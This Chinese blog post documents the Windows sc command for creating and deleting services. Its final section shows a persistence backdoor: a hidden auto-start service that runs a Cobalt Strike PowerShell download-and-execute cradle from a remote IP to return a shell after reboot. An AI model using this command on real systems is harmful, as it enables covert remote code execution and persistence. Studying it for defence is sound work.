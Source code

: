 # Windows sc命令与权限维持


`sc`命令用来创建和删除windows服务

#### 使用SC命令创建windows服务

**命令格式：**

```bash
sc [servername] create Servicename [Optionname= Optionvalues]
```

```bash
# servername
可选，可以使用双斜线，如\\\\myserver，也可以是\\\\192.168.0.1来操作远程计算机。如果在本地计算机上操作就不用添加任何参数。

# Servicename
在注册表中为service key制定的名称。注意这个名称是不同于显示名称的（这个名称可以用net start和服务控制面板看到），而SC是使用服务键名来鉴别服务的。

# Optionname
这个optionname和optionvalues参数允许你指定操作命令参数的名称和数值。注意，这一点很重要在操作名称和等号之间是没有空格的。
如果你想要看每个命令的可以用的optionvalues，你可以使用sc command这样的格式。这会为你提供详细的帮助。

# Optionvalues
为optionname的参数的名称指定它的数值。有效数值范围常常限制于哪一个参数的optionname。如果要列表请用sc command来询问每个命令。
```



示例：

```bash
sc create svnservice binpath= "\"D:\Servers\Subversion\bin\svnserve.exe\" --service -r E:\SVN\repository" displayname= "SVNService" depend= Tcpip start= auto  

```

注意：

1. 在`option= xxxxx`格式中，`=`号和后面的内容一定要有空格，如`depend=  Tcpip`

2. 如果命令中的需要进行双引号的嵌套，使用反斜杠加引号 `\"`来进行转义处理。



#### 使用SC命令删除windows服务

从注册表中删除服务子项。如果服务正在运行或者另一个进程有一个该服务的打开句柄，那么此服务将标记为删除。

语法：

```bash
sc [ServerName] delete [ServiceName] 
```

示例：

```bash
sc delete svnservice
```





#### 服务自启动后门

这里使用Cobalt Strike生成了一个powershell的下载后门的payload（菜单栏，Attacks-->Web Drive

-by-->Scaripted Web Delivery，生成powershell后门）

```bash
sc create "Name" binpath= "cmd /c start powershell.exe -nop -w hidden -c \"IEX ((new-object net.webclient).downloadstring('http://192.168.28.142:8080/a'))\"" 

sc description Name "Just For Test" # 设置服务的描述字符串 
sc config Name start= auto	 # 设置这个服务为自动启动 
net start Name ``# 启动服务

# 重启服务器后，成功返回一个shell
```



---

> 作者: [剑胆琴心](http://geoer.cn)  
> URL: https://geoer.cn/windows-sc%E5%91%BD%E4%BB%A4/  

